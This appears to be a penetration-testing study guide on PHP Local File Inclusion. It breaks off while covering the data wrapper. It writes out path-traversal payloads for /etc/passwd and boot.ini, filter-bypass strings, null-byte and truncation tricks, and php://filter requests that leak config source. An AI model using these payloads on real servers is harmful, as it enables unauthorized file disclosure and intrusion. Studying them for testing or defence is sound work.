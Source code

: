 # Local File Inclusion (LFI)

LFI occurs when user input is used in a file include function, allowing reading of local files from the server.

**Basic Example**

A vulnerable parameter:

`http://<SERVER_IP>:<PORT>/index.php?language=es.php`

If the parameter is passed directly:

`include($_GET['language']);`

We can change it to:

`?language=/etc/passwd`       # Linux
`?language=C:\Windows\boot.ini`  # Windows


**Path Traversal**

If input is appended to a directory:

`include("./languages/" . $_GET['language']);`

Use `../` to move up directories:

`?language=../../../../etc/passwd`

Even excessive `../` won’t break the path.

**Filename Prefix Bypass**

If input has a prefix:

`include("lang_" . $_GET['language']);`

Try adding / before traversal:

`?language=/../../../etc/passwd`

(May not work if the prefixed directory doesn’t exist.)


**Appended Extensions**

If `.php` is appended automatically:

`include($_GET['language'] . ".php");`

`?language=/etc/passwd` becomes `/etc/passwd.php` (nonexistent).
Bypasses may involve `wrappers/filters` (covered later).

**Second-Order LFI**

LFI can occur indirectly when another function uses user-controlled data stored elsewhere (e.g., database).

Example:

`/profile/$username/avatar.png`

If username is `../../../etc/passwd`, the avatar loader may include the target file instead.


# Basic LFI Bypasses

Techniques to bypass common LFI protections.

**1. Non-Recursive Path Traversal Filters**

Example filter:

`$language = str_replace('../', '', $_GET['language']);`

Bypass using:

<pre>?language=....//....//....//....//etc/passwd
?language=..././..././..././..././etc/passwd
?language=....\/\/....\/\/etc/passwd</pre>

**2. Encoding**

`Encode ../ → %2e%2e%2f`

Example:

`?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd`

You can double-encode for stricter filters.

**3. Approved Paths**

Filter:

<pre>if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
}</pre>

Bypass:

`?language=./languages/../../../../etc/passwd`

**4. Appended Extensions**

If `.php` is appended:

`include($_GET['language'] . ".php");`

Bypass only possible on older PHP versions (see below).

**5. Path Truncation (PHP < 5.3/5.4)**

Use long string (>4096 chars) to truncate `.php`:

`echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`

**6. Null Bytes (PHP < 5.5)**

Terminate string before .php:

`?language=/etc/passwd%00`


# PHP Filters

Many popular web applications are developed in PHP, along with various custom web applications built with different PHP frameworks, like Laravel or Symfony. If we identify an LFI vulnerability in PHP web applications, then we can utilize different PHP Wrappers to be able to extend our LFI exploitation, and even potentially reach remote code execution.

PHP Wrappers allow us to access different I/O streams at the application level, like standard input/output, file descriptors, and memory streams. This has a lot of uses for PHP developers. Still, as web penetration testers, we can utilize these wrappers to extend our exploitation attacks and be able to read PHP source code files or even execute system commands. This is not only beneficial with LFI attacks, but also with other web attacks like XXE.

**Input Filters**

PHP Filters are a type of PHP wrappers, where we can pass different types of input and have it filtered by the filter we specify.
To use PHP wrapper streams, we can use the php:// scheme in our string, and we can access the PHP filter wrapper with:

`php://filter/`

The filter wrapper has several parameters, but the main ones we require for our attack are:

- resource → the stream we want to apply the filter to (e.g., a local file)
- read → the type of filter to apply (e.g., base64 encode)

The filter useful for LFI attacks is:

`convert.base64-encode`

**Fuzzing for PHP Files**

Example fuzzing command:

`ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php`

Example output:

<pre>index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]</pre>

Tip: When fuzzing for LFI, scan for all response codes (200, 301, 302, 403) — you may still be able to include those files.

**Standard PHP Inclusion**

Example request:

`http://<SERVER_IP>:<PORT>/index.php?language=config`

In many cases, this will execute the PHP file and render HTML output, meaning you won’t see the raw PHP source.

**Source Code Disclosure with PHP Filters**

We can use the base64 filter to read the raw PHP source code:

`php://filter/read=convert.base64-encode/resource=config`

Example LFI request:

`http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config`

Example decoding on attacker machine:

`echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d`

Decoded snippet:

<pre>if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}</pre>

# PHP Wrappers

Use PHP Wrappers with LFI to read files or run commands.  
We’ll cover 3 main ones: **data**, **input**, and **expect**.

---

## 1. Data Wrapper
Needs `allow_url_include = On` in PHP config.  
Check with LFI + base64 filter:

```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

